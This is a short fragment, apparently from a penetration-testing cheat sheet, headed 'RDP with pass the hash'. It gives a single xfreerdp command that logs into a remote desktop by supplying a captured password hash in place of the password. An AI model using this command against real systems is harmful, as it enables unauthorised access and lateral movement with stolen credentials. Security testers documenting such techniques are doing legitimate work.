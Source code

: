 ### RDP with pass the hash
```
xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<rhost> +clipboard
```

